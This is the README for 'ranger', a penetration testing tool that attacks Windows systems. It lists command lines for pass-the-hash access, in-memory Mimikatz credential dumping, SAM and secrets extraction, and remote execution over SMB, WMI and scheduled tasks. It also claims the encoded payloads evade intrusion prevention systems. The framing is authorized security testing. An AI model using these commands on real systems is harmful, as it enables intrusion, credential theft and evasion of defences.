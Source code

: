 # ranger
A tool to support security professionals access and interact with remote Microsoft Windows based systems.

This project was conceptualized with the thought process, we did not invent the bow or the arrow, 
just a more efficient way of using it.

Ranger is a command-line driven attack and penetration testing tool, which as the ability to use 
an instantiated catapult server to deliver capabilities against Windows Systems.  As long as a user 
has a set of credentials or a hash set (NTLM, LM, LM:NTLM) he or she can gain access to systems that 
are apart of the trust.

Using this capability a security professional can extract credentials out of memory in clear-text, 
access SAM tables, run commands, execute PowerShell scripts, Windows Binaries, and other tools.  
At this time the tool bypasses the majority of IPS vendor solutions unless they have been custom 
tuned to detect it. The tool was developed using our home labs in an effort to support security 
professionals doing legally and/or contractually supported activities.

More functionality is being added, but at this time the tool uses the community contributions 
from repositories related to the PowerShell PowerView, PowerShell Mimikatz and Impacket teams.

##Command Execution:
###Find Logged In Users:
ranger.py [-u Administrator] [-p Password1] [-d Domain] --scout

###SMBEXEC Command Shell:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --smbexec -q -v -vv -vvv

###PSEXEC Command Shell:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --psexec -q -v -vv -vvv

###PSEXEC Command Execution:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --psexec -c "Net User" -q -v -vv -vvv

###WMIEXEC Command Execution:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec -c "Net User"

###WMIEXEC PowerShell Mimikatz Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --invoker

###WMIEXEC Metasploit web_downloader Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --downloader

###WMIEXEC Custom Code Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --executor -c "binary.exe"

###ATEXEC Command Execution:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --atexec -c "Net User" --no-encoder

###ATEXEC PowerShell Mimikatz Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --invoker --no-encoder

###ATEXEC Metasploit web_downloader Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --downloader --no-encoder

###ATEXEC Custom Code Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --executor -c "binary.exe" --no-encoder

###SECRETSDUMP Custom Code Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --secrets-dump

###Create Pasteable Mimikatz Attack:
ranger.py --invoker -q -v -vv -vvv

###Create Pasteable web_downloader Attack:
ranger.py --downloader -q -v -vv -vvv

###Create Pasteable Executor Attack:
ranger.py --executor -q -v -vv -vvv

##Notes About Usage:
###Cred File Format:
* You can pass it a list of usernames and passwords or hashes in the following format in the same file:
```
username password
username LM:NTLM
username :NTLM
username **NO PASSWORD**:NTLM
PWDUMP
username PWDUMP domain
username password domain
username LM:NTLM domain
username :NTLM  domain
username **NO PASSWORD**:NTLM domain
PWDUMP domain
username PWDUMP domain
```

###Cred File Caveats:
* If you provide domain names in the file they will be used instead of the default WORKGROUP.  
* If you supply the domain name by command line (-d), it will infer that you want to ignore all the domain names in the file.

###Command Line Execution:
* If you do not want to use the file you can pass the details through command line directly.
* If you wish to supply hashes instead of passwords just pass them through the password argument.  
* If they are PWDUMP format and you supply no username it will pull the username out of the hash.  
* If you supply a username it will think that the same hash applies to a different user.

###Targets and Target Lists:
* You can provide a list of targets either by using a target list or through the target option.  
* You can supply multiple target list files by comma separating them and it will aggregate the data and remove duplicates and then exclude your IP address from the default interface or the interface you provide. 
* The tool accepts, CIDR notations, small ranges (192.168.195.1-100) or large ranges (192.168.194.1-192.163.1.1) or single IP addresses.  
* Again just comma separating them by command line or put them in a new line delimited file.

###Exclusions and Exclusion Lists:
* You can exclude targets using the exclude arguments as well, so if you do not touch a little Class C out of a Class A it will figure that out for you.

### Intrusion Protection Systems (IPS)
* Mimikatz, Downloader and Executor use PowerShell memory injection by calling other services and protocols.
* The commands are double encoded and bypass current IPS solutions (even next-gen) unless specifically tuned to catch these attacks.  
* ATEXEC is the only one that currently lands on disk and does not encode, I still have some rewriting to do still.

###NMAP
* The nmap XML feed is still in DRAFT and it is not functioning yet. 
